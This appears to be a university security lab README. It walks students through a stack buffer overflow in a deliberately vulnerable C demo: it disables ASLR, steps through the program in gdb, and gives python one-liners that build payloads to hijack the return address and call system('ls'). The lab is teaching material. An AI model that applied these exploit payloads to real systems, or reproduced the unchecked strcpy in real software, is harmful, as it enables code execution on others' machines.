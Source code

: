 # CYBER 366

## Prerequisites
#### disable address space layout randomization
``` bash
sudo bash -c "echo 0 > /proc/sys/kernel/randomize_va_space"
```

#### compile the demo program
``` bash
make
```

> note: to have a better debugging experience, you can compile the demo with debug information inside. Please check the Makefile for details.

## Vulnerability
``` c
int foo(char str2[]){
	char array[4];
	strcpy(array, str2);
	return 1;
}
```
`strcpy` doesn't check the boundary of the destination. The overflow occurs as long as the size of source buffer is larger than the destination. Here, the size of destination is 4, which could be smaller than the size of `str2`.

## Debugging
### hijack the control flow
After attaching gdb to the demo, pass input to the demo by running 
```bash=
start `cat hijack_to_BBBB_payload`
```

![](https://i.imgur.com/QyBWQ7J.png)

Go through the statement. 

![](https://i.imgur.com/t78Uhz7.png)

Check the instructions before the return of function foo.

![](https://i.imgur.com/IL9cx1P.png)

You should be able to run the program instruction by instruction using `ni`.

![](https://i.imgur.com/rtxyd23.png)

Now we are at the `ret` instruction of function `foo`, check the stack for the target we are returning to.

![](https://i.imgur.com/KPfRAsl.png)

When you continue executing, you will see the program has been hijacked to `0x42424242`

![](https://i.imgur.com/Q84OFJA.png)


#### How to generate the payload for this hijacking?
```bash=
python -c "print('A'*16 + 'BBBB')" > hijack_to_BBBB_payload
```
### hijack to print hello
Now we are able to hijack the control flow to arbitrary address, so we are able to let the program print `hello` if we hijack the control flow to function `bar`.

Just like hijacking to 0x42424242, check the adress on the stack that we are returning to in function `foo`.

#### How to generate the payload for this hijacking?
```bash=
python -c "print('A'*16 + '\x86\x84\x04\x08')" > hello_payload
```
> `\x86\x84\x04\x08` is the address of function `bar`

### Hijack to list the files
To list the files, we need to craft the payload of ROP that can execution 
```bash=
system("ls")
```

By checking the stack memory layout before the return in function `foo`, we see the memory looks like the following.

![](https://i.imgur.com/xNCKwoE.png)

Where we are jumping to the `0x08048330`, which is `system` function, with the argument referencing to `0x0804a07c`.


#### How to generate the payload for this hijacking?
```bash=
python -c "print('A'*16 + '\x30\x83\x04\x08' + 'BBBB' + '\x7c\xa0\x04\x08'+'ls')" > system_ls_payload
```
> '\x30\x83\x04\x08' is the address of `system`, 'BBBB' is left for padding, '\x7c\xa0\x04\x08' is the address of string `ls`.


## What to submit
Please take screenshot of each step in the debugging process for three dinstructions
1. the process of going through statements
2. the stack memory layout before executing ret instruction in function `foo`
3. the output of the program after sending the payload
